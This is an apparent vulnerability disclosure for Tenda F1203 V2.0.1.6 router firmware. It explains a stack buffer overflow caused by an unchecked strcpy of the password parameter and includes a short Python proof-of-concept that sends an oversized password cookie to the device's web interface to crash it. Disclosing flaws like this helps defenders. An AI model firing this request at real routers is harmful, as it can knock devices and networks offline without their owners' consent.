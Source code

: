 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2494.html

## Affected version

F1203 V2.0.1.6

## Vulnerability details

The Tenda F1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `R7WebsSecurityHandler` function. The `src` variable receives the `password` parameter from a POST request and is later assigned to the `v19` variable, which is fixed at 128 bytes. However, since the user can control the input of `password`, the statement `strcpy(v19, src);` can cause a buffer overflow. The user-provided  `password` can exceed the capacity of the `v19` array, triggering this security vulnerability.

![image-20240319133933045](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133933045.png)

![image-20240319133855725](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133855725.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240319134009469](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134009469.png)